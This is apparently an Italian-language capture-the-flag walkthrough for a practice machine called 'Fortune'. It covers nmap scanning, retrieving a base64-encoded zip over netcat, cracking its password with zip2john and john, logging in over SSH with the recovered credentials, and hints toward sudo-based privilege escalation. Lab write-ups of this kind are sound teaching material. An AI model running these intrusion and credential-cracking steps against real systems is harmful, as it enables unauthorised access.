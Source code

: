 # FORTUNE

## ENUMERAZIONE
 
scan con nmap per verificare le porte aperte e le versioni dei servizi che ci girano sopra
```bash
nmap fortune.thm -sV -sC 
```

a questo punto abbiamo trovato la porta 3333 molto interessate...(se non riuscite a vederla rifare lo scan solo con l'opzione -p-)
se notate facendo partire successivamente un altro scan sulla porta 3333 e dandogli l'opzione la porta ci risponde con una stringa impresentabile con un = in fondo
bene ragazzi quello è un base64 cosa fare quando abbiamo un base64? decodarlo ovvio! cosi facendo ci restituisce infomazioni interessanti. quindi ora sappiamo che 
dentro quella porta possiamo aspettarci un file zip. andiamo a prenderlo.

## NETCAT

una volta trovata qusta porta perchè non ci mettiamo in ascolto e vediamo cosa ci dice?

```bash
nc fortune.thm 3333 | base64 -d
```

a questo punto sono in ascolto della porta e gli sto dicendo di decodarmi tutto quello che invia.
ed ecco qua quello che ci aspettavamo un file creds.txt.

con questo comando successivamente lo prendiamo.

```bash
nc fortune.thm 3333 | base64 -d > test.zip
```

facendo l'unzip del file a quanto pare serve una password.

```bash
zip2john test.zip > hash.txt
```

andiamoci a prendere l'hash della password e crackiamola!
```bash
john hash.txt
```
e ecco la password! unzippiamo il file 
```bash
unzip test.zip
```

```bash
cat creds.txt
```

BINGO! abbiamo l'utente è la password

entriamo in ssh

```bash
ssh fortuna@fortune.thm
password:
```

## PRIVILEGE ESCALATION

prima che inizi consiglio di visitare il sito GTFO.BINS per spunti interessanti sul privilege escalation

vediamo che comandi da superuser possiamo lanciare

```bash
sudo -l
```

per il resto lascio a voi il ragionamento 

CONSIGLIO!!!(dovete aprire una shell)



